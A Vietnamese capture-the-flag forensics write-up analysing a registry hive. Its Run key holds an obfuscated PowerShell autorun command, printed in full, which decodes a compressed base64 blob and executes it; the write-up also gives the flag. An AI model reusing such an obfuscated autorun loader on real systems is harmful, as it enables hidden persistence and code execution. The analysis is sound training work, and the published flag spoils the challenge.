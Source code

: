 Đề cho một file `NTUSER.DAT`, mở file xem thì thấy là một file registry
![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-07-10%20200108.png)

Sử dụng tool RegistryExplorer để mở tệp. Mình load hive và tìm đến path `Software\Microsoft\Windows\CurrentVersion\Run` để các câu lệnh được thực thi

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-07-10%20200634.png)

Đây là đoạn script trong value

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "(neW-obJEct io.COMprEssIon.dEFlATesTReAm( [sySTem.IO.memorYSTREam] [coNVeRT]::FRoMBAse64stRInG( 'TVFva4JAGP8qh7hxx/IwzbaSBZtsKwiLGexFhJg+pMs09AmL6rvP03S9uoe739/nZD+OIEHySmwolNn6F3wkzilH2HEbkDupvwXM+cKaWxWSSt2Bxrv9F64ZOteepU5vYOjMlHPMwNuVQnItyb8AneqOMnO5PiEsVytZnHkJUjnvG4ZuXB7O6tUswigGSuVI0Gsh/g1eQGt8h6gdUo98CskGQ8aIkgBR2dmUAw+9kkfvCiiL0x5sbwdNlQUckb851mTykfhpECUbdstXjo2LMIlEE0iCtedvhWgER1I7aKPHLrmQ2QGVmkbuoFoVvOE9Eckaj8+26vbcTeomqptjL3OLUM/0q1Q+030RMD73MBTYEZFuSmUMYbpEERduSVfDYZW8SvwuktJ/33bx/CeLEGirU7Zp52ZpLfYzPuQhZVez+SsrTnOg7A8='), [SYSTEM.iO.ComPReSSion.CoMPrEsSIonmODe]::DeCOmpresS)|FOREAcH-object{ neW-obJEct io.streAMrEadeR( $_,[sysTem.TExt.EnCoDING]::asCIi )}).reaDToEnD()|inVOKe-exprEsSIon
```
Đọc qua thì thấy câu lệnh trên giải mã base64 và deflate chuỗi trên rồi thực thi câu lệnh sau khi giải mã. Mình dùng Cyperchef để làm tương tự 

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-07-10%20201249.png)

Tìm được Flag: `CHH{N0_4_go_n0_st4r_wh3r3}`


